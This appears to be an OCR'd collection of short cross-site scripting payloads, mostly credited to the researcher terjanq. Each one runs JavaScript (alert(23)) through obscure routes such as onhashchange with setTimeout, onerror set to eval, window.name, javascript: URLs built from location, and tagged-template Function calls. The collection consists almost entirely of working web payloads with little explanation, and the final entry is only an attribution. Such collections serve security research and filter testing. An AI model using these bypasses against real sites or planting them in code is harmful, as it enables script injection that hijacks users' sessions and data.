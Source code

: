 
[terjanq](https://twitter.com/terjanq/status/1286059146509516800)
    
    example.com/#1/-alert(23)/
```    
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null;
```
    
---

[terjanq](https://twitter.com/terjanq/status/1126796552960389120)

    throw/a/,Uncaught=1,g=alert,a=g+0,onerror=eval,/1/g+a[14]+[23,331,337]+a[15]
    
---

[terjanq](https://twitter.com/terjanq)

    window.name="alert(23)";
    location="xss.html";
xss.html

    Function`a${name}```
    
---

[terjanq](https://twitter.com/terjanq)

Put `%0aalert(/23/)//` anywhere in the URL

    location='javascript:'+location
    location=/javascript:/.source+location
    location=`javascript:`+location
    
---

[terjanq](https://twitter.com/terjanq)

```
x={...eval+0,toString:Array.prototype.shift,length:15},
x+x+x+x+x+x+x+x+x+x+x+x+x,
location = /javascript:/.source + alert.name+x+23+x
```
    
---

[terjanq](https://twitter.com/terjanq/status/1239617536318152704?s=20)

    
    example.com/xss?%0aalert(/23/)//
    

    Function`a${unescape. call`${location}`}```
    
---

[Nowasky](https://twitter.com/nowaskyjr/status/1555609410642272256)

